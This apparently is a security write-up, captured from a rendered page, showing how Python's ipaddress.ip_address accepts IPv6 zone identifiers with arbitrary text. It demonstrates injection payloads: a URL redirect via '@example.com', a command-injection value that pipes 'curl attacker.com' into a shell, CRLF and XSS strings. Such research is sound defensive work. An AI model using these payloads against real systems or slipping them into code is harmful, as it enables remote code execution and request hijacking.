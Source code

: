 # ip_address and Injections
`ipaddress.ip_address` is the most common way to parse IP addresses in Python.
```
>>> import ipaddress
>>> ipaddress.ip_address('::1%slonser')
IPv6Address('::1%slonser')
>>> print(ipaddress.ip_address('::1%slonser'))
::1%slonser
```

We've confirmed that the library returns the Zone Identifier. It's important to understand that many developers are not aware of this behavior, which leads to injections.

A few real-life examples:
## URL formating
Example:
```py
addr = ipaddress.ip_address('::1%61]@example.com#')
url = f"https://[{addr}]:80/info"
```
In such cases, it's possible to bypass the brackets `[]` and redirect the request using `@` to a destination different from what the developer expects.
Also works with `parsed_url._replace`:
```py
parsed_url._replace(netloc="[::1%61]@example.com")
```

## RCE
In some cases (if you're very lucky), this can lead to the possibility of executing code:

```py
os.system(f"ping -c 1 {addr} > ./file")
```

We can't use the "/" symbol, but it's still possible to execute code:

```py
>>> ipaddress.ip_address('::1%;curl attacker.com | sh;')
IPv6Address('::1%;curl attacker.com | sh;')
```

## Another
It's important to understand that achieving CRLF is also possible in some use cases:
```
>>> ipaddress.ip_address('::1%\r\nasd')
IPv6Address('::1%\r\nasd')
```
Also you can try to get XSS with:
```
https://[::1%<h1>slon<h1>]
```
Python will parse hostname as:
```
::1%<h1>slon<h1>
```
